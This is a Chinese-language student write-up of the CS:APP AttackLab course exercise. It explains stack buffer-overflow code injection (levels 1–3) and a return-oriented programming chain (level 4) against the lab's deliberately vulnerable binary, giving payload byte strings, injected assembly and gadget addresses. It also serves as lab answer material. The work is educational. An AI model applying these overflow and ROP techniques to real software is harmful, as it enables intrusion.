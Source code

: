 # AttackLab

**姓名**：魏剑宇

**学号**：PB17111586

**代码地址**：[Github](https://github.com/kaleid-liner/CSAPP/tree/master/bomb)(在DDL之后我会将此仓库make public)

**实验环境**：IDA Pro on Windows 10、 gdbserver on Ubuntu（虚拟机）

---

## Code-injection attacks

### Level 1

这一题相对比较基础，只需要在`getbuf`返回后，能返回到`touch1`即可。`test` 代码如下，

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在`getbuf`调用了`gets`，未进行字符数组长度限制等操作，且`buf`数组在栈中，非常易于收到缓冲区溢出攻击。`getbuf`的汇编如下（来自ida pro），

```assembly
sub     rsp, 28h
mov     rdi, rsp        ; dest
call    Gets
mov     eax, 1
add     rsp, 28h
retn
```

从`sub rsp, 28h`可以知道，`buf`的长度是28h，即40 bytes。故输入的字符串长度超过28h即可溢出。

在下一步之前，我们先清楚在栈退出时的布局，如下所示。

| address | content          |
| ------- | ---------------- |
| rsp + x | 参数（if exist） |
| rsp     | 返回地址         |
| rsp - x | local variables  |

（这里由于没有一般的`push ebp; mov ebp esp`的过程，栈和一般的有所不同。

这里，我们需要做的就是在`gets`的时候，输入足够长的字符串，填充掉`[rsp]`处的内容，使返回地址变为`touch1`的地址。能这样做的原因是`ret`指令就是跳转到`[esp]`的位置并`pop`。

知道这个，因为`touch1`的地址是`0x4017C0`，我们需要输入的内容的字符串表示就是`'00 ' * 40 + 'C0 17 40 00 00 00 00 00'`。这样就会跳转到`touch1`的地址了。

![level1](assets/level1.png)

### Level 2

这题需要注入一段代码，让其执行。需要将`edi`设为cookie的值。回忆一下，*System V AMD64 ABI*里，`edi`用来传递第一个参数。这里，我的`cookie.txt`里的内容是`0x59b997fa`。

这题的思路应该是覆盖返回地址，返回到自己注入的代码的地址处，执行`mov edi, 0x59b997fa`，设置`[esp]`的内容为`touch2`的地址，并`ret`。

以下是汇编代码：

```assembly
.intel_syntax noprefix       
.quad 0, 0, 0, 0 ,0          
.quad 0x5561DCA8             
                             
movq rdi, 0x59b997fa         
mov qword ptr [rsp], 0x4017EC
ret                          
```

如上，`.quad 0, 0, 0, 0, 0`是填充40个bytes的0。将返回地址填充为`0x5561DCA8`（这个地址是注入到栈里的代码的开始，通过用`gdb`调试一次就可以得到）。之后执行的代码的作用是很明显的。最后的`ret`将返回到`0x4017EC`，即`touch2`的地址。

为了得到注入`touch2`的字符串，执行以下操作

```shell
gcc -c touch2.s
objcopy touch2.o -O binary touch2
```

gcc 汇编后的代码是 ELF 格式的可执行文件，所以需要通过`objcopy`转化为纯二进制文件，即只含数据和代码的文件。

![level2](assets/level2.png)

### Level 3

和level2大同小异。只不过这回`rdi`的内容需要设置为字符串的地址。字符串的地址可以通过计算得到。需要注意的是字符串放置的位置需要注意，因为之后`hexmatch`里面可能会覆盖部分栈的内容。

`hexmatch`中有如下内容`add rsp, 0FFFFFFFFFFFFFF80h`，说明用到了128byte的栈。多留一点不会造成什么危害，所以我空余了160个bytes的空间。之后在内存中填充字符串`59b997fa`，即`cookie`的值。

```assembly
.intel_syntax noprefix
.quad 0, 0, 0, 0 ,0
.quad 0x5561DCA8

movq rdi, 0x5561DD30
mov qword ptr [rsp], 0x4018FA
ret

.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0

.ascii "59b997fa\0"
```

生成输入文件的操作和[level2](#level-2)的内容相同。最后的结果如下，

![level3](assets/level3.png)

## Return-Oriented Programming

### Level 4

需要这种形式的攻击的原因主要是程序做了一些防御手段

- 栈中的内容被设置为不可执行的
- 栈的位置是随机的

所以很难找到植入栈中的代码的地址。在这种情况下，ROP应运而生。这个的原理在[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中已有介绍。

所以重点是在汇编中找到合适的 gadget 进行组合。分析 gadget farm 的内容，可以找到以下有用的汇编。

```assembly
; addval_273
; 48 89 C7 C3
movq rdi, rax
ret

; addval_219
; 58 90 C3
popq rax
nop
ret

; setval_426
; 48 89 C7 90 C3
movq rdi, rax
nop
ret

; getval_481
; 5C 89 C2 90 C3
popq rsp
movl edx, eax
ret

; addval_190
; 48 89 E0 C3
movq rax, rsp
ret
```

我只需要用到`popq rax`和`movq rdi, rax`。所以，我需要做的应该是，

- 覆盖返回地址为`addval_219`中`58 90 C3`处的地址，即`0x4019AB`。
- 通过`popq rax`来将`rax`设为`0x59B997FA`。
- 返回到`addval_273`的地址，即`0x4019A2`。
- 通过`mov rdi, rax`将`rdi`设为cookie的值。

所以最后的地址为的内容为`'00 ' * 40 + 'AB 19 40 00 ' + '00 ' * 4 + 'FA 97 B9 59 ' + '00 ' * 4 'A2 19 40 00 ' + '00 ' * 4 + 'EC 17 40 00 ' + 00 ' * 4 + '\n'`.

结果如下，

![level4](assets/level4.png)

## Reproduction

为了复现我的结果，只需要运行：

```shell
./generate.sh
```

可以得到`touch1`、`touch2`、`touch3`、`touch4`，即为这四题的答案。

